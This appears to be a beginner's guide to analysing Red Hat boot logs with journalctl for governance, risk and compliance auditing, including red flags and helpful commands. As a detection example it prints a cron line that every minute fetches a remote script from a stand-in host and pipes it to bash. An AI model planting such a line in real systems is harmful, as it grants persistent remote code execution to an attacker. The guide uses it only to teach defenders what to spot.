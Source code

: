 🐧 Red Hat Boot Log Analysis: GRC Guide for Beginners

👩🏽‍💻 Author: Rebecca Baldoz

"Let Yourself Begin Again" — learning cybersecurity one boot log at a time.

🔍 Objective

This document serves as a beginner-friendly guide to analyzing Red Hat (or other Linux) boot logs using journalctl, with an emphasis on how this skill ties into GRC (Governance, Risk, and Compliance), system integrity, and security auditing.

✅ What a Healthy Boot Log Looks Like

Run this command to view the latest boot log:

sudo journalctl -b

Key Indicators of a Healthy Boot:

🔧 Component

✅ What to Expect

BIOS logs

Starts with BIOS-e820 memory entries

DMI/SMBIOS

Shows manufacturer like Dell, HP, or innotek GmbH

Kernel & systemd

Smooth progression with no big delays

auditd.service

Should start successfully

Reboot reason

Clean shutdown or user-initiated reboot

🚨 Red Flags in a Compromised or Suspicious Boot

⚠️ Red Flag

💬 What It Might Mean

To Be Filled By OEM

Possible spoofed BIOS — indicates tampering

Gaps in timestamps

Log suppression or anti-forensics

auditd.service: Failed

Logging disabled — weakens forensic readiness

Unexpected @reboot cron jobs

Could trigger malware at startup

Reboot reason: watchdog expired

System crashed or froze — may indicate instability

🛡️ Basic GRC Defense Phrases

Use these in documentation, GitHub reports, or real audits:

"System boot logs begin at BIOS handoff and proceed through the kernel to user-space services without timestamp anomalies."

"SMBIOS data reflects a consistent system fingerprint across boots, confirming hardware integrity."

"No unauthorized scheduled tasks or suspicious network calls detected in crontab during boot."

🧪 Example: Suspicious Cron Job

* * * * * bash -c "$(curl -fsSL http://shady.site/payload.sh)"

🚩 This runs every minute and downloads code from an unknown source. Dangerous.

🧰 Helpful Commands

# View boot logs
sudo journalctl -b

# View only BIOS-related boot messages
sudo journalctl -b | grep BIOS

# Show system manufacturer and serial number
sudo dmidecode -t system

# List root’s cron jobs
sudo crontab -l



💬 Personal Reflection

Today I learned how to read my Red Hat boot logs and look for anomalies. I may not understand everything yet, but I now know how to:

Check BIOS messages

Spot bad cron jobs

Recognize spoofed system identifiers

Explain what "auditd" is and why it matters

Progress isn't about being perfect. It's about seeing further today than I did yesterday. 🖥️🐧🫡
